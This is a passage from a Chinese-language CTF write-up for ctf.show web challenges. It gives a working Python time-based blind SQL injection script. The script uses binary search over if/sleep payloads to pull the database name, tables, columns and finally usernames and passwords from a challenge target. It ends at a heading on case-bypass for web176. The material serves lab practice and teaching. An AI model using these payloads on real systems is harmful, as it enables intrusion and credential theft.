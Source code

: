```cobol
        mid = (high+low)//2
        if (chr(mid)==" "):
            break
    flag += chr(mid)
    print(flag)
```

这里我们能够发现 其实都没有怎么变化 只是判断条件改变了 所以其实二分法只需要学会一种即可

然后通过判断条件的改变 就可以写出二分法的时间注入

然后我们更新一下二分法时间注入

```cobol
import requests
 
import  time
 
url = "http://5653e881-7c4e-48f9-95e5-8cc4647532b6.challenge.ctf.show/api/v5.php?id="
# payload = "1' and if(ascii(substr((select database()),{0},1))>{1},sleep(2),1)-- +"
# payload = "1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},sleep(2),1)-- +"
# payload = "1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user5'),{0},1))>{1},sleep(2),1)-- +"
payload = "1' and if(ascii(substr((select group_concat(id,'--',username,'--',password)from ctfshow_user5 where username='flag'),{0},1))>{1},sleep(2),1)-- +"
flag =''
 
for i in range(1,50):
    high = 128
    low = 32
    mid = (high+low)//2
    while (high>mid):
        payload1 = payload.format(i,mid)
        # print(payload1)
        start_time = time.time()
        re = requests.get(url = url+payload1)
        stop_time = time.time()
        sub_time = stop_time - start_time
        if sub_time > 1.8:
            low = mid+1
        else:
            high = mid
        mid = (high+low)//2
        if (chr(mid)==" "):
            break
    flag += chr(mid)
    print(flag)
```

发现不是那么南 只需要你会写盲注的二分法 然后通过修改判断条件即可

## web176 大小写绕过
